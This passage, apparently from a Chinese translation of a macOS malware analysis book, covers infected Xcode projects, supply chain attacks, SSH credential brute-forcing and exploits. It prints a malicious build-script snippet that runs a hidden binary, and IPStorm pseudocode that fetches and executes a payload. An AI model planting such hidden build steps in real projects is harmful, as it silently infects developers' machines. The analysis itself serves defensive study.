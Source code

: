 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/975QoDl7XibRDoZl5cpQsiaDjibhUAoq1NHlgUBfzlRwyxgDdqLEQ0iaEXqaRY6WGz78T9xxx4NKpUjNqvQu7SBFJg/640?wx_fmt=png&from=appmsg "")  
  
构建受感染项目将触发脚本执行。查看Assets.xcassets脚本可见其执行名为xcassets的二进制文件，这正是恶意软件的核心组件：  

```
cd &#34;${PROJECT_FILE_PATH}/xcuserdata/.xcassets/&#34;
xattr -c &#34;xcassets&#34;
chmod +x &#34;xcassets&#34;
./xcassets &#34;${PROJECT_FILE_PATH}&#34; true%
```

  
该脚本首先进入隐藏的/.xcassets/目录，然后通过xattr清除xcassets二进制文件的扩展属性，再通过chmod添加可执行权限（+x），最后执行该二进制文件并传入工程路径等参数。  
## 1.11 供应链攻击（Supply Chain Attacks）  
  
一种高级的感染目标系统的方法是入侵分发第三方软件的正规开发者或商业网站，这类所谓的供应链攻击既高效又难以检测。例如2017年中，攻击者成功入侵热门视频转码工具HandBrake的官方网站，借此篡改合法转码程序，将其重新打包为携带名为Proton的恶意软件的版本。  
  
2018年，另一起供应链攻击针对知名Mac应用网站macupdate.com。黑客篡改该网站下载链接，将Firefox等热门macOS应用的下载地址替换为携带CreativeUpdate恶意软件的木马化版本：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/975QoDl7XibRDoZl5cpQsiaDjibhUAoq1NHolBCpzJIoRolkHqjible4uGsEwf3GYuEiaxD3kLQWTb2Mx1cr6guw1AQ/640?wx_fmt=png&from=appmsg "")  
  
本章到目前为止讨论的大多数攻击和感染途径，应能通过macOS 10.15+引入的应用公证要求得到完全或部分遏制。如前所述，该要求确保所有软件必须经Apple扫描批准方可在macOS运行。然而，感染Mac系统的其他途径依然存在。  
## 1.12 远程服务凭证破解（Account Compromises of Remote Services）  
  
在macOS上，用户可启用并配置RDP、SSH等外部暴露服务，以实现远程内容共享或合法远程系统访问。然而若服务配置不当或使用弱密码/泄露密码保护，攻击者便能获得系统访问权限，从而执行恶意代码。  
  
FruitFly恶意软件感染途径曾多年成谜。2018年FBI的调查报告揭示了该软件感染远程系统的精确方式：  
入侵外部暴露服务  
。报告指出：  
  
"攻击途径包括扫描识别外部暴露服务（含Apple文件传输协议AFP/端口548、RDP或其他VNC、SSH/端口22、以及Back to My Mac/BTMM），这些服务会因弱密码或第三方数据泄露获得的密码而遭攻击"。  
  
2020年，攻击者将IPStorm恶意软件从Windows/Linux移植至macOS。该软件通过暴力破解SSH账户感染远程系统（包括启用SSH的macOS设备）。一旦猜中有效用户名和密码，即下载并执行恶意负载到远程系统。下面展示了IPStorm在远程系统安装自身的逻辑片段：  

```
int ssh.InstallPayload(...) {
 ssh.SystemInfo.GoArch(...);  // 获取远程系统架构信息
 statik.GetFileContents(...); // 下载兼容负载
 ssh.(*Session).Start(...);   // 执行负载
}
```

  
IPStorm调用GoArch方法收集远程系统信息（如架构类型），据此通过GetFileContents下载兼容负载，最终在远程系统执行负载实现持久感染。  
## 1.13 漏洞利用（Exploits）  
  
多数macOS感染途径需大量用户交互（如下载运行恶意程序），且新版macOS防护机制已能阻断此类攻击。相比之下，漏洞利用更为隐蔽——它们能在无用户交互、无系统级防护检测的情况下静默安装恶意软件。  
  
漏洞利用指通过安全漏洞执行攻击者指定代码技术。  
零日漏洞利用  
针对尚无补丁的漏洞，堪称终极感染途径。即便厂商发布零日漏洞补丁，未更新系统的用户仍处风险中，攻击者常专门针对此类用户。  
  